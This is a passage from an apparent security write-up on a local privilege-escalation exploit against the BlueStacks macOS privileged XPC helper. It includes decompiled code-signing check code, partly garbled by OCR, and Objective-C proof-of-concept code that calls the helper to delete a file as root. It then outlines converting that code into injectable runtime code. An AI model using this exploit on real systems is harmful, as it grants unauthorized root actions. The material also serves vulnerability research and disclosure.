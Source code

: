 ```objc
            result_code = SecRequirementCreateWithStringAndErrors
            (&cf_anchorapplegenericand(certificateleaf[field.1.2.840.113635.100.6.1.9]/*exists*/orcertificate1[field.1.2.840.113635.100.6.2.6]/*exists*/andcertificateleaffield.1   .2840.113635.100.6.1.13]/*exists*/andcertificateleaf[subject.OU]=QX5T8D6EDU),0,&local_1040,&local_1048);
            if(result_code)
            {
                return_value = SecStaticCodeCheckValidityWithErrors(local_1050,0,local_1048,&local_1040);
                if(return_value)
                {
                    ret_value = YES
                    return ret_value
                }
            }
        }
    }
    return ret_value
}
```

#### Initial Shellcode
The below is the Objective-C shellcode that we are going to covert into C using the Objective-C runtime library. It simply deletes the file at '/tmp/xpc_test' as root.  
```objc
#import <Foundation/Foundation.h> 
#import <Security/Authorization.h>

@protocol HelperIpcProtocol
- (void)fixQuarantineAttributeAtPath:(NSString *)arg1 continuation:(void (^)(BOOL))arg2;
- (void)fixLaunchAgentsWithContinuaion:(void (^)(BOOL))arg1;
- (void)fixBundlePermissionsAtPath:(NSString *)arg1 continuation:(void (^)(BOOL))arg2;
- (void)removeBundleAtPath:(NSString *)arg1 continuation:(void (^)(BOOL))arg2;
@end

__attribute__((constructor)) static void run(int argc, const char **argv) {
	
    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithMachServiceName:@"com.BlueStacks.AppPlayer.bstservice_helper" options:NSXPCConnectionPrivileged];
                                                       
    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperIpcProtocol)];
    connection.interruptionHandler = ^{
        NSLog(@"Connection Terminated");
    };

    connection.invalidationHandler = ^{
        NSLog(@"Connection Invalidated");
    };

    NSString* path = @"/tmp/xpc_test";
	
    [connection resume];
    [connection.remoteObjectProxy removeBundleAtPath:path continuation:^(BOOL error) {}];
}
```
#### Converting To Objective-C Runtime Code
We now need to convert the Objective-C code we have to C based Objective-C runtime code. At the same time we will also patch out all the functions we need to so we can dynamically resolve them at run time. In the end we only need to resolve dlopen, dlsym and pthread_create_from_mach_thread for the code and _NSConcreteGlobalBlock for the objective-c block type.
